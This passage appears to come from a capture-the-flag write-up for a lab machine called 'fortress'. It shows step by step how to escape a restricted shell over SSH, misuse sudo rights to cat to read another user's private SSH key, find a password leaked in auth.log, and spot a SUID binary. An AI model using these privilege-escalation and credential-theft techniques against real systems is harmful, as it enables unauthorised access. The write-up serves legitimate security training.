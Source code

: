```sh
$ ssh -i id_rsa h4rdy@temple.fortress -t "bash --noprofile";
```

With that, we no longer have the previously present restrictions but still can't run our usual binaries.

```sh
h4rdy@fortress:~$ ls
Command 'ls' is available in '/bin/ls'
The command could not be located because '/bin' is not included in the PATH environment variable.
ls: command not found
```

  Checking `$PATH`, we find that it's set to `/home/h4rdy` where most of our usual binaries doesn't lie. We can either specify full paths for everything or export a new `$PATH`, of which I chose the second.

```sh
export PATH=/bin:/sbin/usr/local/sbin:/usr/local/bin:/usr/bin/
```

Checking `sudo -l`, we find that we can `cat` stuff as "j4x0n" without a password.

```sh
h4rdy@fortress:~$ sudo -l
Matching Defaults entries for h4rdy on fortress:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User h4rdy may run the following commands on fortress:
    (j4x0n) NOPASSWD: /bin/cat
```

With this, we can read j4x0n's `id_rsa` in `/home/j4x0n/.ssh` and login as them.

We can't run `sudo` without a password. Looking at the logs though, we have something interesting in `/var/log/auth.log`.

```
Jul 26 14:56:18 fortress sudo:    j4x0n : TTY=pts/0 ; PWD=/home/j4x0n ; USER=root ; COMMAND=/bin/bash -c echo "j4x0n:<REDACTED>" | chpasswd
```

j4x0n changed their password and it got recorded in `auth.log`. With this we can get a root shell. This, however, doesn't seem to be an intended route to root as [said by the author](https://belikeparamjot.medium.com/unintended-root-s-on-fortress-d6fa78d4a978), so we move on and find another way in. The `/data` directory also seems to be another unintended piece so we ignore it.

Checking our groups

```shj4x0n@fortress:~$ id
uid=1000(j4x0n) gid=1000(j4x0n) groups=1000(j4x0n),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

We see that j4x0n is in the `lxd` group. However, `lxd` isn't running or even installed so we have to look elsewhere.

The file `/opt/bt` is interesting as it' a non-standard SUID binary. Running it just prints a few messages and breaks our terminal. However, downloading the file to our local machine and analyzing it reveals more interesting things.
